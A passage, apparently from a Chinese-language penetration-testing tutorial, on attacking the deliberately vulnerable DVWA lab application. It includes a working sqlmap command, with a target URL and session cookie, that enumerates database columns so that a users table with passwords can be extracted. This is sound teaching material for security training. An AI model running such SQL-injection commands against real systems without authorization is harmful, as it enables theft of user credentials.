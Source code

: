 ![](img/0f2eb51a-1563-4ece-a8fe-7514d06d9c58.png)

图 9：确定软件版本

现在我们已经获得了与 DVWA 相关的信息，让我们进一步执行一些额外的攻击。

# 从 SQL 表转储用户详细信息

我们将执行的下一个攻击是从 SQL 数据库获取有关用户的信息。为此，我们将针对`dvwa`数据库。让我们开始：

1.  使用以下命令获取数据库中的当前表：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --columns
```

在这个命令中，我们正在查找与`dvwa`数据库（`-D dvwa`相关的列（`--columns`。注意，在输出中，我们有一个有趣的表，它被列为`users`，列有`firstname`*、*`lastname`*、*`userid`和`password`：

![](img/23bb7147-1dae-41e9-a9db-24fae21e5e17.png)
